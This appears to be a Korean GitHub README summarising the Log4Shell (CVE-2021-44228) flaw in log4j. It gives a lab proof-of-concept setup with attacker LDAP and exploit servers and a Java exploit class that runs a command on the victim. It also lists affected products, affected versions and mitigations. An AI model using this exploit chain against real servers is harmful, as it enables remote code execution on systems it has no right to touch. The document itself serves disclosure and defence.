 # log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 JNDI lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버 (vulnerable-app)
    * e.g.) log.info("Received a request for API version {}", X-Api-Version);
    * listen port 8080
    * ![victim](image/victim_vuln_spring_server.png)
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * ![ldapref](image/attacker_ldapref_server.png)
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * ![exploit](image/attacker_exploit_server.png)
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * ![exploit](image/attack_req.png)
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * ![attk_result](image/attack_result.png)

# 정규식
https://regex101.com/r/ssSBdZ/2

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
